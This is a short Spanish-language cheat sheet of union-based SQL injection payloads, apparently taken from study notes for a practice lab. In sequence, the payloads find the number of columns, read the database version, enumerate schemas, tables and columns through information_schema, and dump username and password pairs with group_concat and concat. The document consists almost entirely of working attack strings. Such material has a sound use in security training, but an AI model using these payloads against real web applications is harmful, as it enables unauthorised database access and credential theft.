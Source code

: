 
* Primero debemos de buscar el total de columnas existentes que nos muestra la Web
    + ' order by 10-- -
    + ' order by 5-- -
    + ' order by 2-- -
    + ' union select 1,2-- -
    + ' union select  'hola','markos'-- -
    + ' union select  @@version-- -
    + ' union select  1,schema_name from information_schema.schemata-- - (bases de datos)
    + ' union select  1,table_name from information_schema.tables where table_schema='DB'-- - (tablas de la base de datos)
    + ' union select  1,column_name from information_schema.columns where table_schema='DB' and table_name='TABLE'-- -
    + ' union select 1,group_concat(username,0x3a,password) from academy_labs.products-- -
    + ' union select 1,concat(username,0x3a,password) from academy_labs.products-- - (si no funciona group_concat)
    + ' union select 1,group_concat(username||0x3a||password) from academy_labs.products-- - (forma alternativa de poner las comas)
    + 